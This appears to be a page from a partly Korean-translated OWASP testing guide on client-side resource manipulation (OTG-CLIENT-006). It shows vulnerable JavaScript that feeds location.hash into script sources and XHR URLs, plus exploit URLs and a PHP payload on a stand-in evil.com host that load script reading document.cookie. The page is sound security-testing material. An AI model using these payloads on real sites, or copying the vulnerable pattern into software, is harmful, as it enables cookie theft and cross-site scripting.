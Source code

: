 ============================================================================================
OTG-CLIENT-006 (클라이언트 측 리소스 조작 침투 테스트)
============================================================================================

|

개요
============================================================================================

A ClientSide Resource Manipulation vulnerability is an input validation
flaw that occurs when an application accepts an user
controlled input which specifies the path of a resource (for example
the source of an iframe, js, applet or the handler of an XMLHttpRequest).
Specifically, such a vulnerability consists in the
ability to control the URLs which link to some resources present
in a web page. The impact may vary on the basis of the type of
the element whose URL is controlled by the attacker, and it is
usually adopted to conduct Cross-Site Scripting attacks.

|

테스트 방법
============================================================================================

Such a vulnerability occurs when the application employs user
controlled URLs for referencing external/internal resources. 
이러한 상황에서 악성 객체가 로드되고 렌더링되어만들 때 어플리케이션의 
동작을 방해할 수 있습니다.
The following JavaScript code shows a possible vulnerable
script in which the attacker is able to control the “location.hash”
(source) which reaches the attribute “src” of a script element.
This particular obviously leads XSS since an external JavaScript
could be easily injected in the trusted web site.

.. code-block:: JavaScript

    <script>
        var d=document.createElement("script");
        if(location.hash.slice(1))
            d.src = location.hash.slice(1);
        document.body.appendChild(d);
    </script>

Specifically the attacker could target the victim by asking her to
visit the following URL:

.. code-block:: JavaScript

    www.victim.com/#http://evil.com/js.js

Where js.js contains:

.. code-block:: JavaScript

    alert(document.cookie)

다른 흥미롭고 미묘한 경우가 발생할 수 있기 때문에, 스크립트 소스를 제어하는 것은
기본적인 예입니다.

A widespread scenario involves the possibility to control the URL called in a
CORS request; since CORS allows the target resource to be accessible
by the requesting domain through a header based approach,
then the attacker may ask the target page to load malicious
content loaded on its own web site.
Refer to the following vulnerable code:

.. code-block:: JavaScript

    <b id="p"></b> 

.. code-block:: JavaScript

    <script>
    function createCORSRequest(method, url) {
        var xhr = new XMLHttpRequest();
        xhr.open(method, url, true);
        xhr.onreadystatechange = function () {
            if (this.status == 200 && this.readyState == 4) {
                document.getElementById('p').innerHTML = this.responseText;
            }
        };
        return xhr;
    }
    var xhr = createCORSRequest('GET', location.hash.slice(1));
    xhr.send(null);
    </script>

The “location.hash” is controlled by the attacker and it is used for
requesting an external resource, which will be reflected through
the construct “innerHTML”. Basically the attacker could ask the
victim to visit the following URL and at the same time he could
craft the payload handler.
Exploit URL: www.victim.com/#http://evil.com/html.html

.. code-block:: JavaScript

    http://evil.com/html.html
    ----
    <?php
    header('Access-Control-Allow-Origin: http://www.victim.com');
    ?>
    <script>alert(document.cookie);</script>

|

Black Box testing
---------------------------------------------------------------------------

Black box testing for Client Side Resource Manipulation is not
usually performed since access to the source code is always
available as it needs to be sent to the client to be executed.

|

Gray Box testing
---------------------------------------------------------------------------

Testing for Client Side Resource Manipulation vulnerabilities:
To manually check for this type of vulnerability we have to identify
whether the application employs inputs without correctly
validating them; these are under the control of the user which
could be able to specify the url of some resources. Since there
are many resources that could be included into the application
(for example images, video, object, css, frames etc.), client side
scripts which handle the associated URLs should be investigated
for potential issues.
The following table shows the possible injection points (sink)
that should be checked:

.. csv-table::

    "Resource","Tag/Method","Sink"
    "Frame","iframe","src"
    "Link","a","href"
    "AJAX Request","xhr.open(method,[url],true);","URL href"
    "CSS","link",""
    "Image","img",""
    "Object","object","src"
    "Script","script","data src"


The most interesting ones are those that allow to an attacker
to include client side code (for example JavaScript) since it could
lead to an XSS vulnerabilities.

When trying to check for this kind of issues, consider that some
characters are treated differently by different browsers. Moreover
always consider the possibility to try absolute URLs variants
as described here: http://kotowicz.net/absolute/

|

Tools
============================================================================================

- DOMinator - https://dominator.mindedsecurity.com/

|

References
============================================================================================

OWASP Resources
-------------------------------------------------------------------------------------------

- DOM based XSS Prevention Cheat Sheet
- DOMXSS.com - http://www.domxss.com
- DOMXSS TestCase - http://www.domxss.com/domxss/01Basics/04_script_src.html

|

Whitepapers
-------------------------------------------------------------------------------------------

- DOM XSS Wiki: https://code.google.com/p/domxsswiki/wiki/LocationSources
- Krzysztof Kotowicz: "Local or External? Weird URL formats onthe loose": http://kotowicz.net/absolute/   

|